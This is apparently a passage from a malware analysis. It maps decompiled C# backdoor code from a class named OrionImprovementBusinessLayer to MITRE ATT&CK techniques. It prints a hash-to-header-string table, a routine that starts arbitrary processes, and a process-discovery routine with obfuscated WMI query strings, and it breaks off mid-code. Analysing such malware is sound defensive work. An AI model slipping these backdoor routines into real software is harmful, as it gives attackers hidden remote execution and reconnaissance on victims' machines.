 ```
7574774749059321801  	->  user-agent
9007106680104765185  	->  referer
6116246686670134098  	->  content-type
16066522799090129502  	->  date
14226582801651130532  	->  close
2734787258623754862  	->  accept
11266044540366291518  	->  connection
8873858923435176895  	->  expect
13852439084267373191  	->  keep-alive
1475579823244607677  	->  100-continue
```

<br /><br />
Start a process -  T1569.002 Service Execution & T1543.003 Create or Modify System Process 

```csharp
public static int RunTask(string[] args, string cl, out string result)
{
	result = null;
	string fileName = Environment.ExpandEnvironmentVariables(args[0]);
	string arguments = (args.Length > 1) ? cl.Substring(OrionImprovementBusinessLayer.Job.GetArgumentIndex(cl, 1)).Trim() : null;
	using (Process process = new Process())
	{
		process.StartInfo = new ProcessStartInfo(fileName, arguments)
		{
			CreateNoWindow = false,
			UseShellExecute = false
		};
		if (process.Start())
		{
			result = process.Id.ToString();
			return 0;
		}
	}
	return 1;
}

```
<br /><br />
Get processes info - T1057 Process Discovery

```csharp
public static void GetProcessByDescription(string[] args, out string result)
{
	result = null;
	if (args.Length == 0)
	{
		foreach (Process process in Process.GetProcesses())
		{
			result += string.Format(OrionImprovementBusinessLayer.ZipHelper.Unzip("i6420DGtjVWoNqzlAgA="), process.Id, OrionImprovementBusinessLayer.Quote(process.ProcessName));
		}
		return;
	}
	using (ManagementObjectSearcher managementObjectSearcher = new ManagementObjectSearcher(OrionImprovementBusinessLayer.ZipHelper.Unzip("C07NSU0uUdBScCvKz1UIz8wzNooPKMpPTi0uBgA=")))
	{
		foreach (ManagementBaseObject managementBaseObject in managementObjectSearcher.Get())
		{
			ManagementObject managementObject = (ManagementObject)managementBaseObject;
			string[] array = new string[]
			{
				string.Empty,
				string.Empty
```